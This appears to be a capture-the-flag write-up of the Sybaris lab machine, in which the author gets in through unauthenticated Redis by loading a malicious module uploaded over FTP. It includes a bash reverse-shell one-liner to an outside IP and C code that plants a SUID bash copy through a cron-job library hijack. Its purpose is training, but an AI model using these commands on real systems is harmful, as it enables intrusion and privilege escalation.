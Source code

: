 ```yaml
---
layout: writeup
title: Sybaris - Proving Grounds
date: 2024-07-15 13:32:20 +0300
description: A Writeup of the Sybaris Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [LainKusunagi, Linux, Redis]
---
```


Here's a writeup for Sybaris, an Intermediate Proving Grounds box from the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). While this box has been rated Intermediate by OffSec, I'll note that the community has rated it to be Hard. I get started with an nmap scan to reveal:

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
6379/tcp open  redis
```

I check out port 80 by entering it into the web browser and begin a directory scan in the background: 

![Sybaris1.png](/assets/images/Sybaris/Sybaris1.png){: .center-aligned width="600px"}

Seems like a basic blog run over the `HTMLy` platform. It doesn't really look like there's anything here, and the directory scan reveals a `/login` page but not much else. Entering any credentials to the admin page seems to take us to `http://$IP/login/login`. I also find nothing for HTMLy exploits. 

I move on temporarily from the web server and check out port 21. It looks like we are able to login with `anonymous:anonymous` credentials, and we see a directory called `pub`, but it's empty, and we can't upload anything to it. It actually hangs trying to `cd` into it, but when we `ls pub` we get nothing. 

That leaves port 6379, a redis server. Fortunately we got a little experience with redis through the [Readys](https://cagrigsby.github.io/writeups/2024-07-14-readys-proving-grounds/) box. We can access it without authentication using `redis-cli -H $IP`, but there's not much interesting when we check the info, and it looks like the db is empty when we use `pyredis-dump.py`. Hm. I do a little research to see what other information could be viewed, but I don't see anything that stands out even when I view the full configs (`CONFIG GET *`) or check for keys or hashes (`KEYS *`, `HKEYS *`). 

So it's time to start looking for exploits at this point. I give [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server) a shot even though the redis version is 5.0.9 (rather than 5.0.5 and before) but no luck. I tried writing a [PHP webshell](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#php-webshell) and , [creating an SSH key](https://github.com/iw00tr00t/Redis-Server-Exploit),  but I couldn't write against a read-only replica. I assumed this precluded some of the other suggestions, but I was mistaken. It turns out the actual answer is to [load a malicious redis module](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#load-redis-module)to perform RCE. Now hacktricks links to [this github page](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) so you can clone the repo and compile it using `sudo make`, but please note that **this will not work** on ARM devices such as MacOS. A discord user suggested using the pre-compiled module from  the redis-rogue-server exploit linked above. 

*I had to look into hints for this because apparently there was an issue with my connection.*

When I tried to upload a test file into the FTP server early on, I was unable to, and crucially, the FTP hung when I tried to `cd pub`. It actually hung another time as well. I assumed we could not access this directory, but after reading a writeup, I was incorrect, so I tried again. This time it worked. I'm ot sure why it worked sometimes and not others, maybe I was wearing it out with a directory scan or something, but regardless, we need to `put` the compiled module /`redis-rogue-server/exp.so` into pub, the full PATH of which is `/var/ftp/pub/exp.so`. From there we use `MODULE LOAD /var/ftp/pub/exp.so`, which allows us to use `system.exec` to execute commands as so:

![Sybaris2.png](/assets/images/Sybaris/Sybaris2.png){: .center-aligned width="600px"}

After that I tried uploading a reverse shell which I got to download from my server but didn't execute, so I just ran a simple `system.exec "/bin/bash -i >& /dev/tcp/192.168.45.183/6379 0>&1"` from the redis-cli, and I was able to catch the shell with a penelope listener as pablo. 

![Sybaris3.png](/assets/images/Sybaris/Sybaris3.png){: .center-aligned width="600px"}

I start enumerating from there and check out lse.sh. First things first:

![Sybaris4.png](/assets/images/Sybaris/Sybaris4.png){: .center-aligned width="600px"}

It's empty. Thanks for nothing lse.

![Sybaris5.png](/assets/images/Sybaris/Sybaris5.png){: .center-aligned width="600px"}

Here we go. Cron-job and a writable path. If we try to run the binary, we see there is a missing object file. We can create it, and it will be run with the log-sweeper binary. 

![Sybaris6.png](/assets/images/Sybaris/Sybaris6.png){: .center-aligned width="600px"}

We create a c file on our kali machine:
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

And transfer it to our target machine in the `/usr/local/lib/dev` folder. Then we run gcc on it: `gcc -shared -fPIC -nostartfiles -o utils utils.so`. This file will move a copy of `bash` to `/tmp` and add the SUID bit. That means when it runs, there should be a copy of bash in /tmp, and we can run `/tmp/bash -p` and get root. And it does and we do. 

![Sybaris7.png](/assets/images/Sybaris/Sybaris7.png){: .center-aligned width="600px"}

